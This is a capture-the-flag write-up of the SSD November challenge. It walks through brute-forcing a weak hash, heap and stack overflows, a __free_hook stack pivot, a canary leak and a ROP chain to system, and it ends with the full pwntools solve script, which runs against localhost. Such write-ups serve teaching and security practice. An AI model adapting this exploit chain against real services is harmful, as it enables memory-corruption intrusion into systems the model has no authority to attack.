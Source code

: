 ```yaml
---
title: SSD November
---
```


I recently won the [SSD November challenge](https://twitter.com/SecuriTeam_SSD/status/1325469620493545474), the challenge itself was actually quite interesting. 

The first vulnerability was improper hashing. 

```c
  while (i < size) {
    tmp_value._0_1_ = input[i];
    if ((int)(char)tmp_value * 10 < 0x20) {
      tmp_value._0_1_ = (char)tmp_value % '\x05';
    }
    else {
      tmp_value._0_1_ = (char)(((int)(char)tmp_value * 0x124343) % 0xef);
    }
    input[i] = (char)tmp_value;
    i = i + 1;
  }
```

Upon seeing this, I was immediately suspicious. Most hash functions, even handrolled ones, have both addition and multiplication? I didn't really understand what was going on, but analysis through GDB showed that the values tended towards very high values (ie 0xfc, 0xfd, 0xfe, 0xff, 0x00). 

Because the hash is done per character, I handpicked a few characters with distinct hash values after running them through the max repetition of hashes. From here, we can easily brute force the 4 byte long admin password. 

<!--more-->

```python
  chrs = ["a", "c", "d", "e", "j"]
  for i1 in range(len(chrs)):
    print(str(i1) + " / 4")
    for i2 in range(len(chrs)):
      for i3 in range(len(chrs)):
        for i4 in range(len(chrs)):
```

After getting access to the admin interface, I used a buffer overflow in the "Set Header" functionality of the admin panel. Specifically, this allowed us to overwrite a char* and then read into it, effectively giving an arbitrary read/write primitive. 

I chose to overwrite `__free_hook` with a `mov rsp, [rdi + 0xa0]` gadget located at `setcontext+53`. This allowed me to pivot the stack to the next chunk I freed. Unfortunately, seccomp means that we'll also need to pwn the forked server process. 

After using a rop chain to leak the stack and thus stack canary, I was ready to send a poisoned message to the server. To do this, I used the lack of checks on the passed in `pass_len` in `create_user`. 

```c
  memcpy(pass_old,password,(long)pass_len);
```

This copies an attacker controlled value into a fixed 64 byte buffer on the stack. Because we had previously leaked the canary, it was easy to perform a buffer overflow attack. Luckily, the name of users is stored in binary space, meaning I could put the argument to `system` at a known location by hiding it in the name.

```python
p.send(
  p16(1) + p16(0)
  + p16(0x110)
  + "cat /home/ctf/flag\x00".ljust(64, "A")
  + "B" * 0x48 + p64(cleak) + p64(0) 
  + p64(prdi) + p64(0x605d50)
  + p64(leak + 283552)
)
```

My full solve script can be found below: 

```python
from pwn import *

p = remote("localhost", 2323)
#p = process("./friend_net")

p.sendlineafter("speed):", "99")

def bash():
  chrs = ["a", "c", "d", "e", "j"]
  for i1 in range(len(chrs)):
    print(str(i1) + " / 4")
    for i2 in range(len(chrs)):
      for i3 in range(len(chrs)):
        for i4 in range(len(chrs)):
          p.sendlineafter(">", "1")
          p.sendlineafter(":", "admin")
          sleep(0.01)
          p.sendlineafter(":", chrs[i1] + chrs[i2] + chrs[i3] + chrs[i4])

          p.recvuntil("with user id ")

          val = int(p.recvline())
          if val != -1:
            print("Logged in")
            return

  print("FAILED")
  exit(1)

p.sendlineafter(">", "1")
p.sendlineafter(":", "reg")
sleep(0.01)
p.sendlineafter(":", "ABC123")

p.sendlineafter(">", "4")
p.sendlineafter("ID:", "14")

bash()

p.sendlineafter(">", "8")
p.sendlineafter(">", "1")
p.sendlineafter(":", str(0x207))
sleep(0.01)
p.sendlineafter("No.:", "A")

stdout = 6312160
p.sendafter("Data:", "A" * 512 + p64(stdout)[:6])

p.sendlineafter(">", "2")
p.recvuntil("version ")

leak = u64(p.recvline(keepends=False).ljust(8, "\x00")) - 3954208
print(hex(leak))

p.sendlineafter(">", "3")
p.sendlineafter(":", str(0x207))
sleep(0.01)
p.sendlineafter("No.:", "A")
# freehook
p.sendafter("Data:", "A" * 512 + p64(leak + 3958696)[:6])

setcontext = 293712
p.sendlineafter(">", "3")
p.sendlineafter(":", str(0x207))
sleep(0.01)
p.sendafter("No.:", p64(leak + setcontext + 53))
sleep(0.01)
p.sendafter("Data:", "A" * 512 + p64(0x605320)[:6])

p.sendlineafter(">", "5")
p.sendlineafter(":", "AAAA")

p.sendlineafter(">", "4")
p.recvuntil("version ")
hleak = u64(p.recvline(keepends=False).ljust(8, "\x00")) + 0x0000000001d5e280 - 0x0000000001d5e070    
print(hex(hleak))

ret = 0x402b8a
prax = leak + 0x0003a8b0    
prdi = leak + 0x0008e1b7    
prsi = leak +  0x00124f9b      
prdx = leak +   0x00001b92   
prsp = leak +  0x00054d9b      
sys = leak + 0x00122258 

print(hex(sys))

buff = 0x606100
fstack = hleak + 0x3000

environ = 3960632
p.sendlineafter(">", "5")
p.sendlineafter(":", "A" * 0xa0 + p64(hleak + 0xa0 + 0x10) + p64(ret) 

+ p64(prax) + p64(1)
+ p64(prdi) + p64(1)
+ p64(prsi) + p64(leak + environ)
+ p64(prdx) + p64(8)
+ p64(sys)

+ p64(prax) + p64(0)
+ p64(prdi) + p64(0)
+ p64(prsi) + p64(fstack)
+ p64(prdx) + p64(0x800)
+ p64(sys) 
+ p64(prsp) + p64(fstack - 8)
)

p.sendlineafter(">", "6")
p.sendlineafter(":", "1")

sleep(0.5)
ui.pause()

p.recv(1)

sleak = ""
for i in range(8):
  sleak += p.recv(1)
  
sleak = u64(sleak)
print(hex(sleak))

p.send(
p64(prax) + p64(1)
+ p64(prdi) + p64(1)
+ p64(prsi) + p64(sleak - 0x100)
+ p64(prdx) + p64(8)
+ p64(sys)

+ p64(prax) + p64(0)
+ p64(prdi) + p64(0)
+ p64(prsi) + p64(buff)
+ p64(prdx) + p64(0x200)
+ p64(sys)

+ p64(prax) + p64(1)
+ p64(prdi) + p64(8)
+ p64(prsi) + p64(buff)
+ p64(prdx) + p64(0x200)
+ p64(sys)

+ p64(0x4016db)
)

sleep(0.01)

cleak = ""
for i in range(8):
  cleak += p.recv(1)
  
cleak = u64(cleak)
print(hex(cleak))

p.send(
  p16(1) + p16(0)
  + p16(0x110)
  + "cat /home/ctf/flag\x00".ljust(64, "A")
  + "B" * 0x48 + p64(cleak) + p64(0) 
  + p64(prdi) + p64(0x605d50)
  + p64(leak + 283552)
)

sleep(0.01)
p.interactive()
```
